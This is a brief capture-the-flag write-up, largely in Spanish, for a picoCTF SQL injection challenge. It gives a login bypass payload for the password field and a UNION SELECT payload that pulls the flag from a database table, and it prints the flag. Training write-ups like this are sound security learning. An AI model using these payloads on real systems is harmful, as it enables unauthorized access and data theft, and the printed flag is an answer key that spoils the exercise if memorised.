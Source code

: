 ## Objetivo
Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:59359/).

Hint
- SQLiLite
## Solucion
Hacemos una inyeccion en el apartado de password ponemos 'or 1=1;-- con esto podremos ingresar.
Despues en el buscador ingresamos 123' UNION SELECT flag, null, null from more_table;-- y obtenemos la bandera

```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}
```

## Notas adicionales
## Referencias